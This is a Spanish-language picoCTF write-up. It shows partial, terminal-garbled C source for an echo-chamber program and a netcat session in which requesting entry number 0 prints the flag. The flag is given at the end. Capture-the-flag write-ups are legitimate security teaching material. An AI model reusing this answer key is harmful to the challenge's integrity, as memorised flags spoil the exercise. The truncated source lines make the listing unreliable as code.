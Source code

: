 ## Objetivo

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/140/program-redacted.c).

Additional details will be available after launching your challenge instance.


## Solución  

checamos el codigo y vemos que el numero de data que debemos ingresar es 0

```java

#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <stdint.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

static char data[10][100];
static int input_lengths[10];
static int inputs = 0;


 
int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greate>
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any acti>
    ready_for_reading = select(1, &input_set, >
    /* Here, first parameter is number of FDs >
     * second is our FD set for reading,

 GNU nano 8.0   program-redacted.c            
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user inp>
        return -3;
    }

    return 0;
}


static void data_write() {
  char input[100];
  char len[4];
  long length;
  int r;
  
  printf("Please enter your data:\n");
  r = tgetinput(input, 100);

zsh: corrupt history file /home/kali/.zsh_history
┌──(kali㉿kali)-[~/Downloads/basicFIle]
└─$ nc saturn.picoctf.net 51417 
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
bi 
bi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
bi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
                                               
┌──(kali㉿kali)-[~/Downloads/basicFIle]
└─$ 


```


entramos al launcher e ingresamos lo que nos pide, al ingresar la data ingresamos 0
```java
zsh: corrupt history file /home/kali/.zsh_history
┌──(kali㉿kali)-[~/Downloads/basicFIle]
└─$ nc saturn.picoctf.net 51417 
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
bi 
bi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
bi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
                                               
┌──(kali㉿kali)-[~/Downloads/basicFIle]
└─$ 


```

**picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}**
## Notas Adicionales 

### Referencias
